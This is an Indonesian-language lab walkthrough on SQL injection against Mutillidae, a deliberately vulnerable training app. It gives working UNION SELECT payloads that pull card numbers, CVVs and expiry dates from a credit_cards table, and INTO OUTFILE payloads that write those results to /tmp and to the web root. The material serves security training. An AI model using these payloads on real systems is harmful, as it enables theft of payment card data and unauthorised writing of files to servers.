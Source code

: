 Lesson 9
--------
- **Step 1**    : Ketika `mysql` pada metsploit, lalu `use owasp10;` lalu ketik `desc accounts;` dan `desc credit_cards;`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%209/1.JPG)
- **Step 2**    : Lalu ketik `select * from accounts where username RLIKE '^[0-9]' union select ccid, ccnumber, ccv, expiration, null from credit_cards;` dan `select * from accounts where username RLIKE '^[0-9]' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/tmp/CCN.csv' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED by '\n';` juga `\! cat /tmp/CCN.csv`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%209/3.JPG)
- **Step 3**    : Lalu ubah mozilla pada Kali, lalu buka web mutillidae dan pilih OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info. Lalu ubah size pada kolom **Name** dari **20** menjadi **100** dan isi `' union select ccid,ccnumber,ccv,expiration,null from credit_cards --` dan jangan lupa berikan spasi setelah `--` lalu klik `View Account Details`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%209/4.JPG)
- Lalu akan muncul hasilnya seperti berikut
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%209/5 .JPG)
- **Step 4**    : Lalu ubah size pada kolom **Name** dari **20** menjadi **100** dan isi dengan `' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/var/www/html/mutillidae/CCN2.txt' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED BY '\n' --` dan jangan lupa berikan spasi setelah `--` lalu klik `View Account Details`
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%209/6 .JPG)
- Lalu akan muncul
![](https://github.com/nezarmahardika/FPPKSJ/blob/master/mutillidae/lesson%209/7.JPG)
